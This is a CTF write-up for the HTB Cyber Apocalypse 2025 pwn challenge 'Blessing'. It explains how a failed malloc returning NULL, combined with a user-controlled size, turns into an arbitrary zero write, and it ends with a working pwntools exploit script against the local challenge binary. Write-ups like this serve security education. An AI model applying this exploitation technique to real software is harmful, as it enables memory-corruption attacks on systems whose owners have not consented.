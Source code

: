 ```yaml
---
title: Blessing
date: 2025-03-26T03:00:19+03:00
description: Writeup for Blessing [HTB Cyber Apocalypse 2025]
author: PineBel
tags:
- pwn
draft: false
---
```

___

## Challenge Description
In the realm of Eldoria, where warriors roam, the Dragon's Heart they seek, from bytes to byte's home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.

## Intuition

We get a binary that does a malloc of 0x30000.
After the malloc it sets the first byte from that malloc to 1.
We also get the pointer from malloc as a leak.
To read the flag we need to overwrite the 1 to 0.

**Vulnerability**:  After the leak we need to give an input which will be used in another malloc. This means that we control the size of the malloc, we can also write content to it but in this case it doesn't matter since we have this vulnerability:
```
*(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0; ---> overflow of 7 bytes
```

## Solution

Initially I thought we should use a large enough malloc so that we mmap right before the first allocated chunk, but the closest I could get to the target chunk was 24 bytes because of alignment. So this doesn't seem like the solution.


```C
  my_malloc_ptr = malloc(my_malloc_len);
  ...
  *(undefined8 *)((long)my_malloc_ptr+ (my_malloc_len- 1)) = 0;
```

Malloc's behaviour when given a really large value will fail and return NULL.
So what happens if I give a really large value?

```C
  my_malloc_ptr = malloc(LARGE);
  ...
  *(undefined8 *)((long)NULL+ (LARGE- 1)) = 0;
```

So basically if we make malloc return `NULL` we can write those 0s at `LARGE-1`.

So the solution would be to just:
1. Get the leak
2. Since the leak is large, we can give it to malloc which will cause it to fail and write to leak - 1.

Solve:
```py
from pwn import *


target = process("./blessing_1")

target.recvuntil(b'is: ')
leak = int(target.recv(14), 16)
target.sendlineafter(b'th: ', str(leak).encode())
target.sendlineafter(b'ng: ', b'x')

target.interactive()
```





